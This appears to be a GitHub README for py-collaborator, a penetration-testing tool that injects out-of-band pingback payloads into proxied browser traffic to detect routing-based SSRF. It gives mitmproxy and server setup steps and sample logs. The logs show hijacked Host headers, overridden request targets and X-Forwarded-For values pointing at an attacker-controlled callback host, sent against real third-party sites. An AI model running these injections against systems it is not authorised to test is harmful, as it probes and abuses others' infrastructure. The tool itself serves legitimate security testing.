 ## py-collaborator - A Python's version of Burp Collaborator (not compatible)
---

This is a client-server piece of software that implements technique discussed by James 'albinowax' Kettle at his [Cracking the Lens](https://portswigger.net/kb/papers/crackingthelens-whitepaper.pdf) whitepaper. 

The tool of trade comes in two flavors:

### 1. Client proxy plugin
---

Implemented for [mitmproxy](https://github.com/mitmproxy/mitmproxy) and for my own [HTTP/S proxy2](https://github.com/mgeeky/proxy2). 


#### mitmproxy

One can use it with **mitmproxy** by loading a script file:

```
$ mitmproxy -s py-collaborator-mitmproxy-addon.py
```

After that, 
- go to your favorite browser
- set up it's proxy so it points on **mitmproxy**'s listening interface and port
- Load up mitmproxy's certificate by browsing to **http://mitm.it** and selecting your option (int Firefox - you can directly go to the: [http://mitm.it/cert/pem](http://mitm.it/cert/pem))
- Select trust checkboxes.

Then, when in **mitmproxy** interface - type in **'E'** to go to Events log and look for following outputs:
```
info: Loading script /mnt/d/dev2/py-collaborator/py-collaborator-mitmproxy-addon.py
info: Initializing py-collaborator-mitmproxy-plugin.
info: Connecting to MySQL database: root@<YOUR-IP> ...
info: Connected.
...
Injected pingbacks for host (d9.sina.com.cn)
info: 127.0.0.1:48162: clientconnect
info: (1) Re-sent misrouted request with hijacked Host header (d9.sina.com.cn -> xxx1yfgeq0a5jrpxb56lycb0w7a7togjpqlrw2pjm2rcqermytibyyyy.<YOUR-HOST>)
info: (2) Re-sent host overriding request (/litong/zhitou/sinaads/test/e-recommendation/release/sinaere.js -> http://xxxqwzmqhx464804woszmnyuhv4idoj9dg83q6aywhcgtjfkq2ewdyyy.<YOUR-HOST>/)
info: (3) Re-sent host header @ manipulated request (d9.sina.com.cn -> d9.sina.com.cn@xxxnd31uvlno1hhpznqxdhhbwp3zsqg2k25nfx5z9q6nku51fgsjnyyy.<YOUR-HOST>)
info: Injected pingbacks for host (d9.sina.com.cn).
...
```

If you spot those lines, the injecting plugin is working and you can now browse your target webapplications. Every request met will get injected headers, as well as there will be couple of additional hand-crafted requests in the background going on. 


#### proxy2

Although **proxy2** is very unstable at the moment, one can give it a try by running:

```
$ ./proxy2.py -p py-collaborator-mitmproxy-addon.py
```

After that, 
- go to your favorite browser
- set up it's proxy so it points on **proxy2**'s listening interface and port
- Load up proxy2's certificate by browsing to **http://proxy2.test**
- Select trust checkboxes.



### 2. Server part
---

Just as Burp Collaborator needs to listen on ports such as 80, 443, 8080 - our server will need too. In order to handle properly 443/HTTPS traffic, we shall supply to our server wildcard CA certificate, that can be generated using **Let's Encrypt's certbot**. 

- One will need to start a MySQL server, no need to create database or initialize it anyhow.
- Then, we need to configure all needed informations in **config.json** file.
- Having properly filled config.json - we can start up our server:

```
$ python3.7 py-collaborator-server.py
```

Server while running, will handle every **Out-of-band** incoming requests having UUID previously inserted to database, during proxied browsing. Such found correlation will be displayed as follows:

```
hostname|23:55|~/dev/py-collaborator # python3.7 py-collaborator-server.py -d

        :: Cracking the Lens pingback responding server
        Responds to every Out-of-band request correlating them along the way
        Mariusz B. / mgeeky '16-18, <mb@binary-offensive.com>

[-] You shall specify all needed MySQL connection data either via program options or config file.
[+] Database initialized.
[dbg] Local host's IP address (RHOST) set to:
[+] Serving HTTP server on: ("0.0.0.0", 80)
[+] Serving HTTP server on: ("0.0.0.0", 443)
[+] Serving HTTP server on: ("0.0.0.0", 8080)
[?] Entering infinite serving loop.
[dbg] Incoming HTTP request from <YOUR-IP>:  /


-------------------------------------------------------------------------------------
Issue:                  Pingback (GET / ) found in request's Header: Host
Where payload was put:  Overridden Host header (magnetic.t.domdex.com -> GET /http://xxxkr2hr3nb43pxqb1174wsl48platj701r1d38k7quaf74kukqfqyyy.<YOUR-HOST>:80
Contacting host:        vps327993.ovh.net
Tried to reach vhost:   xxxkr2hr3nb43pxqb1174wsl48platj701r1d38k7quaf74kukqfqyyy.<YOUR-HOST>:80

Issue detail:
    Our pingback-server was contacted by (<YOUR-IP>:50828) after a delay of (0:03:37.404649):

    Original request where this pingback was inserted:
    ---
        GET /sync/casale HTTP/1.1
        Host: magnetic.t.domdex.com
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
        Accept: */*
        Accept-Language: pl,en-US;q=0.7,en;q=0.3
        Accept-Encoding: gzip, deflate, br
        Referer: https://ssum-sec.casalemedia.com/usermatch?s=183875&cb=https%3A%2F%2Fpr-bh.ybp.yahoo.com%2Fsync%2Fcasale%2F_UID_
        Connection: keep-alive
        Pragma: no-cache
        Cache-Control: no-cache
        X-Forwarded-For: http://xxxzslzo9p4gig2jxlimfpz3kusjbizg3gj5kylqbupr3ev5pvwdtyyy.<YOUR-HOST>/


    Request that was sent to us in return:
    ---
        GET / HTTP/1.1
        Host: xxxkr2hr3nb43pxqb1174wsl48platj701r1d38k7quaf74kukqfqyyy.<YOUR-HOST>
        User-Agent: curl/7.58.0
        Accept: */*

The payload was sent at (2019-01-13 22:52:40) and received on (2019-01-13 22:56:17).
-------------------------------------------------------------------------------------

```

